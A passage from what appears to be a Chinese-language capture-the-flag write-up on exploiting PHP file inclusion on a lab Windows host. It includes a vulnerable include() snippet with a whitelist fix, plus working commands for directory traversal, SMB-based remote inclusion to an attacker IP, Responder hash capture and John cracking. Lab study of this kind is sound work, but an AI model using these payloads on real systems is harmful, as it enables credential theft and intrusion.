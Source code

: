 **关键技术点**：
- 使用`//`前缀指定SMB协议

- 利用Windows自动认证机制捕获NetNTLMv2哈希

- 需要配合Responder工具进行哈希截获

  

## 3. 漏洞原理分析

### PHP include()函数缺陷
```php
// 漏洞代码示例
include($_GET['page'] . '.html');

// 修复方案（白名单验证）
$allowed_pages = ['home', 'about', 'contact'];
if (in_array($_GET['page'], $allowed_pages)) {
    include($_GET['page'] . '.html');
} else {
    die('Invalid page requested');
}
```

### SMB协议特殊性
- PHP默认禁用HTTP/FTP远程包含，但SMB协议不受限制
- Windows系统会自动尝试NTLM认证访问SMB共享
- 攻击者可以利用此特性强制目标向恶意服务器认证

## 4. 漏洞利用链

### 完整攻击流程
1. **发现LFI**：通过目录遍历读取系统文件
2. **升级到RFI**：利用SMB协议进行远程文件包含
3. **哈希捕获**：使用Responder截获NetNTLMv2挑战响应
4. **哈希破解**：使用John the Ripper破解密码
5. **权限提升**：使用获得的凭证通过WinRM获取系统访问权限

### 关键命令总结
```bash
# LFI验证
curl "http://unika.htb/index.php?page=../../../../../../../../windows/system32/drivers/etc/hosts"

# RFI利用（配合Responder）
curl "http://unika.htb/index.php?page=//10.10.14.25/testfile"

# Responder启动
sudo responder -I tun0 -wv

# 哈希破解
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```
